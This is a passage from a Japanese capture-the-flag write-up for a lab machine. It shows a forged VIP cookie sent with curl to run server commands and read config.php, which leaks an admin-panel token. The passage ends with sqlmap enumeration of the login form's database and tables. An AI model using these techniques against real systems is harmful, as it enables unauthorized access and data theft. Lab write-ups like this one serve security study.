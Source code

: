 ```js

function decodeHtmlEntities(str) {
  return str
    .replace(/&lt;/g, "<")
    .replace(/&gt;/g, ">")
    .replace(/&quot;/g, '"')
    .replace(/&amp;/g, "&");
  // Extend with other entities as needed
}
```

これを使ってコマンド実行が可能。ただし、ホワイトリストで明示的に書かれたコマンドのみなので、やれることは限られる。

```sh
$ curl -H "Cookie: PHPSESSID=fpcckmi0lojvnavkepc446t2bj; isVIP=true" http://capture3millionsubscribers.thm/run_machine_hackme.php?command=whoami
www-data
```

config.php

```sh
$ curl -H "Cookie: PHPSESSID=fpcckmi0lojvnavkepc446t2bj; isVIP=true" http://capture3millionsubscribers.thm/run_machine_hackme.php?command=cat%20config.php
&lt;?php

$SECURE_TOKEN= &quot;[REDACTED]&quot;;
$urlAdminPanel= &quot;http://admin1337special.hackme.thm:40009&quot;;
?&gt;
```

http://admin1337special.hackme.thm:40009/public/html/login.php  
を試したら、Auth Code を入れる画面が出てきた。  
これに入手したセキュアトークンを入れるとログイン画面が出てきた。

で、先に Splunk の調査（Task3）をやっていたので、ここに SQLi の脆弱性があるであろうことはすぐに分かった。  
一度 POST を発行し、Burp でリクエストをテキスト保存し、sqlmap。

DBs

```sh
sqlmap -r ./login.txt --dbs -batch

available databases [6]:
[*] hackme
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] sys
```

Tables

```sh
sqlmap -r ./login.txt -D hackme --tables -batch

[2 tables]
+--------+
| config |
| users  |
+--------+
```
